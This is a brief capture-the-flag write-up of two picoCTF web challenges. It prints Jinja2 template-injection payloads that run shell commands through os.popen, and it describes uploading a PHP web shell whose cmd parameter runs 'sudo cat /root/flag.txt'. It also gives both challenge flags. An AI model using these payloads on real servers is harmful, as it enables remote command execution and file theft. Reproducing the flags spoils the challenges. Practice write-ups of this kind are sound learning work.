 # Pico-CTF

CTF #1
The first CTF that I did on the pico site is the SSTI1 CTF.

The description of the ctf is:
I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.
The first hint is:
Server Side Template Injection

The main bulk of this ctf is injecting commands into a notification line on a hosted website that has little security. 
Using Jinja2 there the command {{config.items()}} allows you to see configuration data, one thing revealed is ('SECRET_KEY', None),

The following remote injection will show globals within the directory of the server.
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}

Using this shows a file called flagrequirements.txt

The following injection will read the previous file giving the flag.
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}

The flag is: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}

CTF #2
The second CTF that I did is n0s4n1ty 1.

The description of the ctf is:
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
Additional details will be available after launching your challenge instance.
The hints are:
File upload was not sanitized
Whenever you get a shell on a remote machine, check sudo -l

The main point of this ctf is inputing a php shell to the server which unloads a script that the hacker writes instead of a profile picture.
Using scripts you can check the permissions of the user and can find out that there is no password to access the root. 
The following url will lead to the final ctf as the root user:
http://standard-pizzas.picoctf.net:63914/uploads/shell.php?cmd=sudo cat /root/flag.txt

The flag is: picoCTF{wh47_c4n_u_d0_wPHP_f7424fc7

Kevin Montes :D
&
Oliver Eulert
&
Grady Bice
